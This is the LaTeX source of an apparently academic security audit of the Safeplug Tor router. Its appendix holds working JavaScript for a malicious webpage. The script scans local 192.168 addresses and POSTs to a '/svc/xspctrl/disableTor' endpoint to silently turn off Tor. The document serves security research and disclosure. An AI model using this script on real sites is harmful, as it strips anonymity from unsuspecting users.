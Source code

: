 \documentclass[12pt, letterpaper]{article}
\title{Security Audit of Safeplug}
\author{Annie Edmundson and Anna Kornfeld Simpson}
\begin{document}
\maketitle






%
%





\section{Acknowledgements}
We would like to express our gratitude to Josh Kroll for donating a lot of time and his computer to the routing effort.  We also thank whoever left the very nice set of screwdrivers on our desks!

This paper represents our own work in accordance with University regulations.

Anna Kornfeld Simpson and Annie Edmundson



\newpage
\appendix
\section{\\Javascript for Website Attack} \label{App:AppendixA}


\begin{lstlisting}
function go() { 
   var IP_SCANS = 255;
   var prefix = "http://192."
   var SECOND_START = 168;
   var SECOND_END = 168;
   var THIRD_START = 0;
   var THIRD_END = 1;
   var mydate = new Date();
   console.log(mydate.getTime());

   for (var i = SECOND_START; i <= SECOND_END; i++) {
      for (var j = THIRD_START; j <= THIRD_END; j++) {
         for (var k = 0; k < IP_SCANS; k++) 
         {
            var tryip = prefix +  i + "." + j + "." + k;
            var req = new XMLHttpRequest();
            req.open("POST", tryip + "/svc/xspctrl/disableTor", true);
            req.timeout = 1000;
            req.send();
         }
         // COMMENT THIS OUT BEFORE RUNNING LARGE SCANS!
         var mydate2 = new Date();
         console.log(mydate2.getTime() + " " + j);
      }
      var mydate = new Date();
      console.log(mydate.getTime() + " " + i);
   }
}
\end{lstlisting}
\end{document}
